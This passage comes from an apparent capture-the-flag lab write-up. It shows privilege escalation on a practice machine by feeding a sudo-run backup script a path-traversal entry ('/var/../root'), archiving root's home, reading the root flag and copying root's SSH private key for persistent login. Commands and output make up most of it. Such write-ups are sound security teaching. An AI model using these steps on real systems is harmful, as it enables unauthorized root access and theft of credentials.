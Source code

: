 ```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh taskss.json
```

**Output:**
```text
2025/03/29 08:36:53 🍀 backy 1.2
2025/03/29 08:36:53 📋 Working with taskss.json ...
2025/03/29 08:36:53 💤 Nothing to sync
2025/03/29 08:36:53 📤 Archiving: [/var/../root]
2025/03/29 08:36:53 📥 To: /home/martin ...
2025/03/29 08:36:53 📦
tar: Removing leading `/var/../' from member names
/var/../root/
/var/../root/.ssh/
/var/../root/.ssh/id_rsa
/var/../root/.ssh/authorized_keys
/var/../root/root.txt
[... truncated ...]
```

Success! The entire root directory is now archived in `/home/martin/`.

### Extracting Root Credentials

```bash
martin@code:~$ tar -xjf code_var_.._root_2025_March.tar.bz2
martin@code:~$ cd root/
martin@code:~/root$ cat root.txt
9234e99aacc8f86f70344547d6d1efab
```

> **Root Flag Captured!** 🚩
{: .prompt-tip }

### Root SSH Access

We can also extract root's SSH private key for persistent access:

```bash
martin@code:~/root$ cat .ssh/id_rsa
```

Copy the private key and connect:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.62
```

---

## Key Takeaways

### Vulnerabilities Exploited
